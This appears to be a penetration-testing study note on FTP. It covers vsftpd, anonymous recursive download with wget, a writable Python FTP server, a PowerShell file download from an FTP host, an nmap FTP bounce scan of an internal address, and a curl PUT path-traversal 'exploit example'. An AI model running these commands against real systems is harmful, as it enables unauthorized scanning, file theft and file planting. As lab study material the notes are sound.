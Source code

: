FTP
############

2024-11-02 17:28

Status:


Description
*****************

File Transfer Protocol

VsFTP
*****************

VsFTP is the most widely used FTP program

.. code-block:: console

   sudo apt-get install vsftpd

Interesting commands:

-  ``status`` Show information about the server

-  ``debug`` show debugging data

-  ``trace`` Show IP transfer information

-  ``ls -R`` Show recursive listings

Using `wget <wget>`__ to download all FTP files:

.. code-block:: console

    wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136

SSL enabled FTP
*****************

If the ftp service has ssl enabled, we can use a client capable of SSL,
bonus is we get to see the cert.

.. code-block:: console

   openssl s_client -connect 10.129.14.136:21 -starttls ftp

Creating a quick/dirty FTP server
**********************************

A quick server using Python can be instantiated with using the pyftpdlib

It can be installed with

.. code-block:: console

   sudo pip3 install pyftpdlib

and started with

.. code-block:: console

   sudo python3 -m pyftpdlib --port 21

To enable the write option you need to add:

.. code-block:: console

   sudo python3 -m pyftpdlib --port 21 --write

On Windows you can leverage the `Net-Webclient <Net-Webclient>`__
program as a client with

.. code-block:: console

   PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')```powershell

FTP Bounce Attack
*****************

By exploiting FTP we can scan another target on the same network that is
not connected to the public internet.

Example: Using **nmap -b** and bouncing off a FTP server

.. code-block:: console

   nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

FTP Exploit examples
**********************************

Example 1:Exploiting a PUT request from Curl

.. code-block:: console

   curl -k -X PUT -H "HOST: <host-ip>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../

References
*****************
